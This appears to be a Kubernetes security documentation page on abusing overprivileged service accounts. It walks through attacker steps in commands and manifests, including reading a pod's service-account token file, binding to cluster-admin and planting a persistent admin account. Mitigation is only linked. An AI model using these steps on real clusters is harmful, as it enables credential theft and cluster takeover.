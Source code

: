 ```yaml
---
sidebar_position: 13
title: "Privileged Service Accounts"
description: "How attackers exploit overly privileged Kubernetes Service Accounts to gain cluster-wide access and escalate privileges."
---
```


# Privileged Service Accounts

**Service Accounts (SAs)** in Kubernetes provide pods with identities to interact with the cluster API. If **overprivileged**, these accounts can be exploited by attackers to **escalate privileges, manipulate cluster resources, or gain persistent access**.

---

## Exploitation Steps: Abusing Overprivileged Service Accounts

An attacker exploits **misconfigured Service Accounts** to gain unauthorized access to cluster resources.

### Step 1: Identify Overprivileged Service Accounts

The attacker lists available **Service Accounts**:

```bash
kubectl get serviceaccounts --all-namespaces
```

Next, they check for **excessive permissions**:

```bash
kubectl get clusterrolebindings -o json | jq '.items[] | select(.subjects[].kind=="ServiceAccount")'
```

If a Service Account has **cluster-admin** privileges, it is a prime target.

### Step 2: Steal Service Account Tokens

If a pod is running with an overprivileged SA, the attacker accesses its token:

```bash
kubectl exec -it attacker-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token | base64 --decode
```

With this token, the attacker authenticates against the Kubernetes API:

```bash
export TOKEN=<stolen-token>
curl -H "Authorization: Bearer $TOKEN" https://<api-server>/api/v1/nodes
```

Now, the attacker can **perform API requests with elevated privileges**.

### Step 3: Escalate Privileges Using RBAC Misconfigurations

If a Service Account has **rolebinding privileges**, the attacker **grants themselves elevated permissions**:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: escalate-privileges
  namespace: default
subjects:
  - kind: User
    name: attacker
    apiGroup: rbac.authorization.k8s.io
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

```bash
kubectl apply -f escalate-privileges.yaml
```

Now, the attacker has **cluster-wide administrative control**.

### Step 4: Maintain Persistence in the Cluster

The attacker creates a **new Service Account** with privileged access:

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: persistent-access
  namespace: default
```

Then, they bind it to **cluster-admin**:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: persist-access
subjects:
  - kind: ServiceAccount
    name: persistent-access
    namespace: default
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

```bash
kubectl apply -f persist-access.yaml
```

Even if the attacker's original access is revoked, this new **Service Account** ensures **ongoing control over the cluster**.

### Result

The attacker successfully **gained persistent access, escalated privileges, and took control over Kubernetes resources** through an insecure Service Account.

---

## Mitigation Steps

To protect against **privileged Service Account abuse**, follow the security best practices outlined in:

➡ **[Securing Kubernetes Service Accounts](/docs/best_practices/cluster_setup_and_hardening/service_account_mitigation)**

This guide covers techniques such as **restricting RBAC permissions, disabling automatic Service Account mounting, enforcing least privilege, and auditing Service Account usage** to prevent unauthorized access.

